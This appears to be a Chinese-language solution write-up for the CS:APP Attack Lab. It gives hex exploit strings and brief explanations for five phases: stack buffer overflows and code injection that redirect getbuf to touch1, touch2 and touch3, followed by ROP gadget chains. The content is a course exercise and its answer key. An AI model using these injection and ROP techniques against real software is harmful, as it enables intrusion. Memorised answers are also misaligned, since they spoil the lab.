 ### phase1
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
9c 17 40
```
将Getbuf函数中`sub 0x28,%rsp`对应的40个字节补全后，向函数传入touch1函数的入口地址即可后续**ret**到touch1

### phase2
```
48 c7 c7 bf 7b 92 76    /* mov $0x76927bbf,%rdi */
68 c8 17 40 00          /* pushq 0x00000000004017c8 */
c3      		        /* ret */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
68 fd 66 55 00 00 00 00 /* cookie 放在 -0x28(%rsp) */
```
将cookie放在%rsp的低地址0x28处（安全位置），在ret到该位置后执行`mov cookie，%rdi` 和ret到touch2的两个命令

### phase3
```
48 8d 7c 24 18          /* lea 0x18(%rsp),%rdi 为指向cookie的指针 */
68 d9 18 40 00          /* pushq 0x00000000004018d9 */
c3      		        /* ret */
00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
68 fd 66 55 00 00 00 00 /* stack top */
00 00 00 00 00 00 00 00 /* 以下几行为函数栈，会覆盖cookie */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
37 36 39 32 37 62 62 66
00 00 00 00 00 00 00 00 /* 将 cookie 放到安全位置 */
```
需要将cookie的str形式（ascii码）同样放到一个安全的不会覆盖的位置，向%rdi赋值后ret到touch3

### phase4
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
81 19 40 00 00 00 00 00 /* gadget 1: pop %rax */
bf 7b 92 76 00 00 00 00 /* cookie */
85 19 40 00 00 00 00 00 /* gadget 2: movq %rax, %rdi */
c8 17 40 00 00 00 00 00 /* ret touch2 */
```
将 cookie 用0x401981地址处的gadget**pop**到%rax，再用另一个gadget将%rax的值赋给%rdi，最后ret到touch2

### phase5
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
/* 配置%rdi */
58 1a 40 00 00 00 00 00 /* gadget 1: movq %rsp,%rax */
8b 19 40 00 00 00 00 00 /* gadget 2: movq %rax,%rdi */
/* 配置%rsi */
81 19 40 00 00 00 00 00 /* gadget 3: pop %rax */
48 00 00 00 00 00 00 00 /* 偏移量 $0x48 */
51 1a 40 00 00 00 00 00 /* gadget 4: movl %eax,%edx */ 
e6 19 40 00 00 00 00 00 /* gadget 5: movl %edx,%ecx */
cb 19 40 00 00 00 00 00 /* gadget 6: movl %ecx,%esi */ 
/* 将str赋给%rdi */
b1 19 40 00 00 00 00 00 /* gadget 7: lea (%rdi, %rsi, 1),%rax */
8b 19 40 00 00 00 00 00 /* gadget 8: movq %rax,%rdi */
d9 18 40 00 00 00 00 00 /* touch3 */
37 36 39 32 37 62 62 66 /* cookie */
00 00 00 00 00 00 00 00 
```
从farm寻找可用的gadget发现可用`add_xy`函数中的`lea (%rdi, %rsi, 1),%rax`来得到cookie的str表示指针：
	1. 先将加数%rdi配置为栈指针%rsp当前的位置
	2. 再将cookie存放位置和%rdi指向位置之间的偏移量赋值给加数%rsi
中间多次通过可用的gadget来传递值。